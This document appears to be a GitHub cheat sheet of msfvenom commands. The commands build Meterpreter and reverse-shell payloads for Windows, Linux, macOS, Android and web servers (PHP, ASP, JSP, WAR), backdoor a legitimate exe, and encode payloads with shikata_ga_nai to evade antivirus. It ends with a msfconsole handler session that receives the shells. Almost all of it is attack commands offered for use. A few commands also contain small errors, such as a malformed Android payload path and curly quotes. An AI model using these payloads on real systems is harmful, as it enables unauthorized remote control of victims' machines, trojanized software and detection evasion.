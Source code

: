 # MSFVenom

MsfVenom is a Metasploit standalone payload generator as a replacement for msfpayload and msfencode.

## Creating Binaries

Creates a simple TCP Payload for Windows

    msfvenom -p windows/meterpreter/reverse_tcp LHOST={DNS / IP / VPS IP} LPORT={PORT / Forwarded PORT} -f exe > example.exe

Creates a simple HTTP Payload for Windows

    msfvenom -p windows/meterpreter/reverse_http LHOST={DNS / IP / VPS IP} LPORT={PORT / Forwarded PORT} -f exe > example.exe

Creates a simple TCP Shell for Linux

    msfvenom -p linux/x86/meterpreter/reverse_tcp LHOST={DNS / IP / VPS IP} LPORT={PORT / Forwarded PORT} -f elf > example.elf

Creates a simple TCP Shell for Mac

    msfvenom -p osx/x86/shell_reverse_tcp LHOST={DNS / IP / VPS IP} LPORT={PORT / Forwarded PORT} -f macho > example.macho

Creates a simple TCP Payload for Android

    msfvenom -p android/meterpreter/reverse/tcp LHOST={DNS / IP / VPS IP} LPORT={PORT / Forwarded PORT} R > example.apk	

## Web Payloads

Creates a Simple TCP Shell for PHP

    msfvenom -p php/meterpreter_reverse_tcp LHOST={DNS / IP / VPS IP} LPORT={PORT / Forwarded PORT} -f raw > example.php

Creates a Simple TCP Shell for ASP

    msfvenom -p windows/meterpreter/reverse_tcp LHOST={DNS / IP / VPS IP} LPORT={PORT / Forwarded PORT} -f asp > example.asp

Creates a Simple TCP Shell for Javascript

    msfvenom -p java/jsp_shell_reverse_tcp LHOST={DNS / IP / VPS IP} LPORT={PORT / Forwarded PORT} -f raw > example.jsp	

Creates a Simple TCP Shell for WAR

    msfvenom -p java/jsp_shell_reverse_tcp LHOST={DNS / IP / VPS IP} LPORT={PORT / Forwarded PORT} -f war > example.war	


## Windows Payloads

Lists all avalaible encoders

    msfvenom -l encoders	

Binds an exe with a Payload (Backdoors an exe)

    msfvenom -x base.exe -k -p windows/meterpreter/reverse_tcp LHOST={DNS / IP / VPS IP} LPORT={PORT / Forwarded PORT} -f exe > example.exe

Creates a simple TCP payload with shikata_ga_nai encoder

    msfvenom -p windows/meterpreter/reverse_tcp LHOST={DNS / IP / VPS IP} LPORT={PORT / Forwarded PORT} -e x86/shikata_ga_nai -b ‘\x00’ -i 3 -f exe > example.exe

Binds an exe with a Payload and encodes it

    msfvenom -x base.exe -k -p windows/meterpreter/reverse_tcp LHOST={DNS / IP / VPS IP} LPORT={PORT / Forwarded PORT} -e x86/shikata_ga_nai -i 3 -b “\x00” -f exe > example.exe

## Getting a Metepreter Shell
```
omar@ares:~$ sudo msfconsole
msf > use exploit/multi/handler
msf exploit(multi/handler) > set payload windows/meterpreter/reverse_tcp
payload => windows/meterpreter/reverse_tcp
msf exploit(multi/handler) > set lhost 192.168.1.123
lhost => 192.168.1.123
msf exploit(multi/handler) > set lport 4444
lport => 4444
msf exploit(multi/handler) > run
```
